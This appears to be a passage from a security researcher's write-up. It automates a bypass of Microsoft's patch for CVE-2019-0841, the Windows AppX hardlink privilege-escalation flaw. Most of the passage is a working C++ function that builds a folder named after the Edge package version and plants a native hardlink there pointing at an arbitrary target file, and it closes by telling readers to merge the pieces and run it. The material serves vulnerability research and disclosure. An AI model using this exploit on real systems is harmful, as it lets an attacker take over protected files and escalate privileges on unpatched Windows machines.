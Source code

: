 # Automation of Bypass steps

Now onto the next conditions:

1. Create the bypass folder with the actual Edge Version
2. Create a hardlink inside it

For this, I have developed a separate function that does just that, watch it below:

```C++
/* Code to achieve the bypass of patch for CVE-2019-0841 */
void bypass(_TCHAR* EdgeVersion, _TCHAR* targetpath) {
	
	wchar_t *userprofile = _wgetenv(L"USERPROFILE");
	wchar_t *relpath = (L"\\AppData\\Local\\Packages\\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\\Microsoft.MicrosoftEdge_"); 
	wchar_t *finalpath = L"_neutral__8wekyb3d8bbwe";
	wchar_t *finalfile = L"\\zc00l.txt";
	std::wstring fullpath(userprofile);
	fullpath += std::wstring(relpath);
	fullpath += std::wstring(EdgeVersion); 
	fullpath += std::wstring(finalpath);
	TCHAR * szBuffsrc = (wchar_t *)fullpath.c_str(); //MS Edge bypass folder
	std::wstring filepath(userprofile);
	filepath += std::wstring(relpath);
	filepath += std::wstring(EdgeVersion);
	filepath += std::wstring(finalpath);
	filepath += std::wstring(finalfile);
	TCHAR * szBuffsrcFile = (wchar_t *)filepath.c_str(); //MS Edge bypass file

	/*
	To achieve multiple/sucessive execution in a clean way, this is required.
	*/
	if (FileExists(szBuffsrcFile)) {
		DeleteFile(szBuffsrcFile);
	}
	RemoveDirectory(szBuffsrc);
	CreateDirectory(szBuffsrc, NULL);
	
	wprintf(L"[+] Creating hardlink bypass ... ");
	if (CreateNativeHardlink(szBuffsrcFile, targetpath)) {
		wprintf(L"DONE!\n");
	}
	else {
		wprintf(L"FAILED!\n");
	}
}
```

# Merge it all and run!
